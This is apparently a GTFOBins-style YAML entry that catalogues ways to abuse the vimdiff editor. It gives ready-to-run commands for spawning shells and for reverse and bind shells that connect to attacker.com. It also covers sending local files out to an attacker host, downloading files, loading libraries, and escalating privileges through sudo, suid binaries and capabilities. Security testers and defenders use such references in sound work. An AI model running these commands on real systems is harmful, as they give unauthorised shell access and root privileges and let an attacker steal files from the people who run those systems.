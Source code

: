 functions:
  shell:
    - code: vimdiff -c ':!/bin/sh'
    - code: |
        vimdiff
        :set shell=/bin/sh
        :shell
    - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3.
      code: vimdiff -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    - description: This requires that `vimdiff` is compiled with Lua support.
      code: vimdiff -c ':lua os.execute("reset; exec sh")'
  reverse-shell:
    - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3. Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        vimdiff -c ':py import vim,sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")
        vim.command(":q!")'
  non-interactive-reverse-shell:
    - description: Run ``nc -l -p 12345`` on the attacker box to receive the shell. This requires that `vimdiff` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        vimdiff -c ':lua local s=require("socket"); local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          while true do
            local r,x=t:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));t:send(b);
          end;
          f:close();t:close();'
  non-interactive-bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell. This requires that `vimdiff` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export LPORT=12345
        vimdiff -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          while true do
            local r,x=c:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));c:send(b);
          end;c:close();f:close();'
  file-upload:
    - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        vimdiff -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
        vim.command(":q!")'
    - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        vimdiff -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
        vim.command(":q!")'
    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires that `vimdiff` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        vimdiff -c ':lua local f=io.open(os.getenv("LFILE"), 'rb')
          local d=f:read("*a")
          io.close(f);
          local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          t:send(d);
          t:close();'
  file-download:
    - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        vimdiff -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])
        vim.command(":q!")'
    - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `vimdiff` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export LPORT=12345
        export LFILE=file_to_save
        vimdiff -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          local d,x=c:receive("*a");
          c:close();
          local f=io.open(os.getenv("LFILE"), "wb");
          f:write(d);
          io.close(f);'
  file-write:
    - code: |
        vimdiff file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: vimdiff file_to_read
  library-load:
    - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3.
      code: vimdiff -c ':py import vim; from ctypes import cdll; cdll.LoadLibrary("lib.so"); vim.command(":q!")'
  suid:
    - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./vimdiff -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
  sudo:
    - code: sudo vimdiff -c ':!/bin/sh'
    - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3.
      code: sudo vimdiff -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    - description: This requires that `vimdiff` is compiled with Lua support.
      code: sudo vimdiff -c ':lua os.execute("reset; exec sh")'
  capabilities:
    - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./vimdiff -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  limited-suid:
    - description: This requires that `vimdiff` is compiled with Lua support.
      code: ./vimdiff -c ':lua os.execute("reset; exec sh")'
---
